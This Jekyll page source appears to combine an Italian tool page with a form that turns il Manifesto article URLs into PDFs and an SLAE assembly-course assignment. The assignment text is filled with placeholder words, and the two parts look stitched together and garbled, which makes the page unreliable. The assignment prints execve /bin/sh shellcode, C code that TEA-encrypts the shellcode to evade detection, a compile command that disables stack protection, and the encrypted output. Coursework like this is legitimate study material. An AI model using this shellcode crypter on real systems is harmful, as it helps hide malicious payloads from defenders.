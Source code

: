 ```yaml
---
layout: post
title:  "il Manifesto 2 pdf"
date:   06-10-2018
categories: tools
---
```

<br />

<script type="text/javascript" src="../js/jquery-3.3.1.min.js"></script>
<script type="text/javascript" src="../js/manifesto.js"></script>
<form id="frm1">
  Inserisci l'url dell'articolo: <input type="text" name="fname" value="URL COMPLETO"><br>
</form>

<button onclick="myFunction()">Ottieni PDF</button>

<p id="link"></p>

<script>
function myFunction() {
    var x = document.getElementById("frm1");
    var text = "";
    var i;
    for (i = 0; i < x.length ;i++) {
        text += x.elements[i].value;
    }
    link2pdf(text);
}
</script>


Student **Prova**  
Github: [https://github.com/massimobedini](https://github.com/massimobedini)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Prova 7:  
    
**Prova:**  
> *Uno*
 - *Due*
 - *Tre*  
  
Ciao a tutti,  
Blabbiti: 
*'Quote.'*  
  
![image]({{ site.url }}/public/images/slae/assignment7/image.png)  
  
Canic [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

Shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Rpba:  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Bash:
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Ciao.
  
[Massimo](https://twitter.com/massimobedini)
